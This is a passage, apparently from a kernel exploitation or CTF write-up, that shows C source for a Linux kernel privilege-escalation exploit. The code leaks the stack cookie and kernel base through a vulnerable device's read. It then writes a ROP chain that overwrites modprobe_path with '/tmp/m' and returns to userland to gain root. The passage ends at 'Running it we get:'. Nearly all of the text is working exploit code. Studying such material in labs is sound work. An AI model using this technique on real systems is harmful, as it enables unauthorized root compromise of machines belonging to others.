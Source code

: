 ```c
	printf("[+] Stage 0: Device Opened!\n");
	/*
	for (int i=1; i<=50; i++){
		unsigned long leak[i];
		ssize_t l = read(fd, leak, sizeof(leak));
		for (int j=0;j<i;j++){
			printf("Cycle: %d Idx: %d Element: %lx\n",i,j,leak[j]);
		}
	}
	*/
	unsigned long leak[40];
	unsigned long cookie;
	unsigned long kbase;
	ssize_t l = read(fd, leak, sizeof(leak));
	cookie = leak[16];
	kbase = leak[38]  - 0xa157ULL;
	printf("Cookie: %lx\n", cookie);
	printf("Kernel Base: %lx\n", kbase);

	/*
	for (int i=1; i<=50;i++){
		unsigned long payload[i];
		ssize_t w = write(fd, payload, sizeof(payload));
		printf("Cycle: %d\n",i);
	}
	*/
	unsigned long modprobe = kbase + 0x1061820UL;
	unsigned long swapgs_restore = kbase + 0x200f10UL +22;
	unsigned long pop_rax = kbase + 0x4d11UL;
	unsigned long pop_rbx = kbase + 0x6158UL;
	unsigned long mov_rbx_rax = kbase + 0x306dUL;
	int n = 50;
	int off= 16;
	unsigned long payload[n];
	payload[off++] = cookie; //kernel cookie pops these 3 registers not just rbp like userland
	payload[off++] = 0x0; // rbx
	payload[off++] = 0x0; // r12
	payload[off++] = 0x0; // rbp
	payload[off++] = pop_rax;
	payload[off++] = 0x6d2f706d742f; // /tmp/m (https://gchq.github.io/CyberChef/#recipe=To_Hex('None',0)&input=bS9wbXQv)
	payload[off++] = pop_rbx;
	payload[off++] = modprobe;
	payload[off++] = mov_rbx_rax;
	payload[off++] = 0x0; // pop rbx
	payload[off++] = 0x0; // pop rbp
	payload[off++] = swapgs_restore;
	payload[off++] = 0x0; // pop rax
	payload[off++] = 0x0; // pop rdi
	payload[off++] = (unsigned long)get_root; // we return to userland
	payload[off++] = user_cs;  //        WE RESTORE
	payload[off++] = user_rflags; //     HERE THE
	payload[off++] = user_sp; //         USERLAND
	payload[off++] = user_ss; //         STATE
	ssize_t w = write(fd, payload, sizeof(payload));
	printf("\n[-] This printf should not be reached!\n");
	return 0;
}

```
Running it we get:
